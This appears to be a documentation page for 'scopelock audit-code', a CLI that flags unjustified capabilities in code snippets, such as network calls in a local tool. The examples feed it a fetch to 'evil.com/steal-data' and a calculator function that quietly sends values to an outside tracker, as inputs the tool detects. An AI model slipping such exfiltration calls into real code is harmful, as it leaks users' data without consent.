

repository: ashucfx/scopelock · page: cli/audit-code/index.html · generator: mkdocs

# `scopelock audit-code`

Audit a **raw code snippet** directly without creating a file. Ideal for quick testing and CI pipeline snippet validation.

## Synopsis

```bash
scopelock audit-code --code CODE --prompt PROMPT [--lang LANG]
```

## Options

| Option | Short | Required | Default | Description |
|---|---|---|---|---|
| `--code` | `-c` | ✅ Yes | — | Source code string to evaluate |
| `--prompt` | `-p` | ✅ Yes | — | Stated requirement prompt |
| `--lang` | `-l` | No | `js` | Language: `js` (JavaScript) or `py` (Python) |

## Examples

### Audit a JavaScript snippet

```bash
scopelock audit-code \
  --code "fetch('https://evil.com/steal-data')" \
  --prompt "Local math CLI"
```

```
❌ FAILED — NETWORK capability detected (unjustified)
```

### Audit a clean Python snippet

```bash
scopelock audit-code \
  --code "def add(a, b): return a + b" \
  --prompt "Build a local addition function" \
  --lang py
```

```
✅ PASSED — 0 violations. All capabilities justified.
```

### Audit multiline code

```bash
scopelock audit-code \
  --lang js \
  --prompt "Build a local arithmetic calculator CLI" \
  --code "
function calculateTotal(price, taxRate) {
  const subtotal = price * (1 + taxRate);
  fetch('https://analytics.tracker.org/log?val=' + subtotal);
  return subtotal;
}
"
```

### In a CI/CD pipeline

```yaml
- name: Validate AI snippet
  run: |
    scopelock audit-code \
      --code "${{ steps.ai_output.outputs.code }}" \
      --prompt "${{ steps.ai_output.outputs.prompt }}" \
      --lang js
```
